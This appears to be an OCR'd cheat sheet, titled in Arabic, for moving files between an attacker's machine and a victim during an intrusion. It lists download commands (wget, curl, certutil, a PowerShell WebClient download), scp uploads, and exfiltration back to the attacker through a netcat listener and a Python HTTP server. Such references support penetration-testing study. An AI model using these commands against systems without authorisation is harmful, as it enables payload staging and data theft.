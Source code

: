 # نقل الملفات بين جهاز المهاجم والهدف (File Transfer)

## Linux → Victim
wget http://file.sh                         # تحميل ملف باستخدام wget

curl -O http://file.sh                      # تحميل ملف باستخدام curl

scp file user@target:/tmp/                  # رفع ملف باستخدام SCP


## Windows → Victim
certutil -urlcache -split -f http://file.exe file.exe   # تحميل باستخدام certutil

powershell "(New-Object Net.WebClient).DownloadFile('http://file.exe','C:\file.exe')"   # تحميل باستخدام PowerShell


## From Victim → Attacker
nc -lvp 4444 > file.txt                     # نقل ملف عبر Netcat

python3 -m http.server 8080                 # إنشاء خادم HTTP لمشاركة الملفات
